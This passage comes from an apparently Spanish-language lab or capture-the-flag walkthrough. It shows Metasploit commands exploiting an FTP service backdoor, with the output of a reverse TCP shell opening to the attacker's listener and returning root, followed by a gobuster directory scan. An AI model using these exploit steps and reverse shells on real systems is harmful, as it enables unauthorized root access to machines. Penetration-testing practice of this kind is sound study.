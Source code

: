 ```shell
set LHOST <YOUR_IP>
```

```shell
run
```

Info:

```
[*] Started reverse TCP double handler on 192.168.5.162:4444 
[*] 192.168.5.173:21 - Sending Backdoor Command
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo 0PGACgf43119N3Fp;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "0PGACgf43119N3Fp\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (192.168.5.162:4444 -> 192.168.5.173:47528) at 2024-06-07 10:02:25 -0400

whoami
root
```

Con esto abremos conseguido acceso a la maquina y ya no solo eso, si no que seriamos `root` automaticamente...

## Segunda forma de resolucion

### Gobuster

```shell
gobuster dir -u http://<IP>/ -w <WORDLIST> -x html,php,txt -t 50 -k -r
```

Info:

```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.5.173/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,php,txt
[+] Follow Redirect:         true
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htaccess.html       (Status: 403) [Size: 302]
/.htpasswd.html       (Status: 403) [Size: 302]
/.htaccess.php        (Status: 403) [Size: 301]
/.htpasswd            (Status: 403) [Size: 297]
/.htaccess.txt        (Status: 403) [Size: 301]
/.htpasswd.txt        (Status: 403) [Size: 301]
/.htpasswd.php        (Status: 403) [Size: 301]
/.htaccess            (Status: 403) [Size: 297]
```